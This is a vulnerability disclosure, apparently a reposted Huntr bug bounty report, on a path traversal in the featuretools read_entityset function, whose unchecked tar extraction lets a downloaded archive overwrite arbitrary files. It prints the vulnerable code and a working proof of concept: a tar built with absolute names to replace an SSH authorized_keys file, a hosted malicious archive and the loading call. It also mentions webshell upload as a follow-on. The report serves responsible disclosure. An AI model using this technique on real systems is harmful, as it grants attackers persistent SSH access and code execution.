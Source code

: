 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite via read_entityset api in featuretools"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite via read_entityset api in featuretools

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [featuretools.read_entityset](https://featuretools.alteryx.com/en/stable/generated/featuretools.read_entityset.html#featuretools.read_entityset) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `featuretools.read_entityset` function, which can be imported easily. It's an api used to read data_description.json from directory on disk, S3 path, or URL which is tar file.

This code snippet shows how the `read_entityset` function extracts a tar file downloaded from internet without performing any security checks. 

```
def read_entityset(path, profile_name=None, **kwargs):
    """Read entityset from disk, S3 path, or URL.

    Args:
        path (str): Directory on disk, S3 path, or URL to read `data_description.json`.
        profile_name (str, bool): The AWS profile specified to write to S3. Will default to None and search for AWS credentials.
            Set to False to use an anonymous profile.
        kwargs (keywords): Additional keyword arguments to pass as keyword arguments to the underlying deserialization method.
    """
    if _is_url(path) or _is_s3(path) or _is_local_tar(str(path)):
        with tempfile.TemporaryDirectory() as tmpdir:
            local_path = path
            transport_params = None

            if _is_s3(path):
                transport_params = get_transport_params(profile_name)

            if _is_s3(path) or _is_url(path):
                local_path = os.path.join(tmpdir, "temporary_es")
                use_smartopen_es(local_path, path, transport_params) # download file from url!
            ### tar file extracted to tepdir without any security checks ###
            with tarfile.open(str(local_path)) as tar:
                tar.extractall(path=tmpdir)

            data_description = read_data_description(tmpdir)
            return description_to_entityset(data_description, **kwargs)
    else:
        data_description = read_data_description(path)
        return description_to_entityset(data_description, **kwargs)
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file for testing: [https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar](https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar)

If anyone now downloads tar using `read_entityset` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
import featuretools as ft
ft.read_entityset(path="https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar")
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

Tested on Google Colab: [https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing](https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing)

![poc](https://live.staticflickr.com/65535/53637853744_26b8a5fff7_h.jpg)


## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170](https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170)
